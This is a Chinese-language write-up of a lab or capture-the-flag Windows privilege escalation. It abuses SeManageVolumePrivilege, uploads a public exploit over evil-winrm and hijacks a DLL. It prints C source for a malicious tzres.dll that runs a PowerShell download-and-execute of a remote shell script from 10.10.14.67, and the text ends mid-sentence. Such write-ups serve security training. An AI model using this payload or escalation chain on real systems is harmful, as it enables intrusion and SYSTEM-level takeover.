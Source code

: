 然后`whoami /all`查看所有权限：

```
Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
```

发现有SeManageVolumePrivilege（在Domain Storage  Managers组中）。

> **SeManageVolumePrivilege** 的中文名称是“**执行卷维护任务**”。拥有此特权的用户或进程可以对整个卷（例如 C: 盘、D: 盘）进行维护操作。
>
> 它的核心作用是：**在文件系统驱动层面执行操作，而不是在文件对象层面**。这意味着它不检查单个文件或文件夹的访问控制列表，因为它操作的是存储这些文件的“容器”本身。

也就是说可以读取、修改、移动或删除磁盘上的**任何文件**。这个权限一般只有管理员才有。

github上找利用程序：https://github.com/CsEnox/SeManageVolumeExploit

下载它的releases中编译好的exe文件，通过evil-winrm上传后执行，我们就可以获得对C盘的完全控制。

根据这里的描述，下一步利用是覆盖目录C:\Windows\System32\spool\drivers\x64\3下的Printconfig.dll，但是我们这里靶机中没有这个目录，只能换dll劫持。

这里获得了对C盘的控制之后核心思想就是劫持dll，用我们的包含恶意代码的dll覆盖正常的dll，然后执行一些指令触发，执行恶意代码。反弹shell后的权限取决于加载dll运行时的权限。Windows服务运行时使用三种主要内置账户：

- **Local System** (`NT AUTHORITY\SYSTEM`) - 最高权限
- **Local Service** (`NT AUTHORITY\LOCAL SERVICE`) - 较低权限
- **Network Service** (`NT AUTHORITY\NETWORK SERVICE`) - 中等权限

我们按照writeup中覆盖tzres.dll,执行systeminfo触发恶意代码，去执行我们机器中的shell.ps1，通过powershell反弹一个shell环境。此时执行whoami就会发现用户是`NT AUTHORITY\NETWORK SERVICE`。而在大多数现代Windows系统中，`NETWORK SERVICE` 账户**默认具有 `SeImpersonatePrivilege`** 权限。这个模仿权限之前提过，可以执行“土豆攻击”。

```
C:\Windows\System32\wbem\tzres.dll   是Time Zone Resource DLL（时区资源动态链接库），主要包含：
    时区名称和描述的本地化字符串
    时区规则和转换信息
    ** daylight saving time（夏令时）相关数据**
    多语言支持的资源数据
C:\Windows\System32\wbem  这个wbem目录主要提供WMI服务，也就是Windows Management Instrumentation，用于管理和监控windows系统。这个服务在涉及到时区相关操作时就会调用tzres.dll。
之前的Printconfig.dll是打印后台处理服务，一般以system权限运行，这也是为什么优先覆盖这个的原因。
writeup中的恶意tzres.dll是：

#include <windows.h>
#include <stdlib.h>
BOOL APIENTRY DllMain(HMODULE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved
)
{
switch (ul_reason_for_call)
 {
case DLL_PROCESS_ATTACH:
system("powershell -c iex(iwr -uri http://10.10.14.67/shell.ps1 -
UsebasicParsing)");
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
 }
return TRUE;
}

这里用的是powershell -c iex(iwr -uri http://10.10.14.67/shell.ps1 -
```